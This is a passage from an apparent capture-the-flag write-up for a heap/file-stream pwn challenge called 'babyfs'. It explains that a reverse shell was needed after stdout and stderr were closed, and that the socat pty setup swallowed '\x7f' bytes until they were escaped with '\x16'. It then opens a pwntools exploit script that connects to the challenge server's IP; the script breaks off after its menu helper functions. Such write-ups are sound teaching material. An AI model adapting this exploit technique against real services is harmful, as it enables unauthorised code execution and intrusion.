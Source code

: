 ```
    free(file_buffer[v1]);
  ....
}
```

Note that, since we closed both stdout and stderr during the leak stage, after we get /bin/sh running, we need to spawn a reverse shell to get an interactive shell.

### Attack remotely

After we got the local shell, we continued trying to attack remotely. after some unsuccessful tries. We suddenly realized that there was something we missed: the readme file inside the challenge package.


```
socat tcp-l:50216,reuseaddr,fork exec:/home/babyfs/babyfs,pty,ctty,echo=0

```

What is so called ",pty,ctty,echo=0"? To figure it out, we opened a local socat server and tried to attack "remotely", then attached the debugger to the challenge process and tried to find out why the remote attack is failed . we found surprisingly that all the '\xff\x7f' are disappear ! it seemed like the console parses the '\x7f' as delete and "eat" the '\xff'. this drove us crazy for sure because we took a lot time to figure out how to escape the '\x7f'. Finally we knew the SYNC control character '\x16' can escape the '\x7f' and prevent the character before '\x7f' to be eaten after the contest end. Yes! after the contest end QaQ.

Finally, Thanks Angelboy for making this great challenge, it is very fun.

### Exploit

Here is the final exploit

```
from pwn import *
context.log_level="debug"
io=remote("52.198.183.186",50216)

def readuntil(delim):
    data=io.recvuntil(delim)
    return data

def readlen(n):
    data=io.recv(n)
    return data

def writeline(data):
    io.sendline(data)

def write(data):
    io.send(data)

def openfile(filename):
    readuntil('choice: ')
    writeline('1')
    readuntil('Filename :')
    writeline(filename)

def readfile(idx, size):
    readuntil('choice: ')
    writeline('2')
    readuntil('Fileindex :')
    writeline(str(idx))
    readuntil('Size :')
    writeline(str(size))

```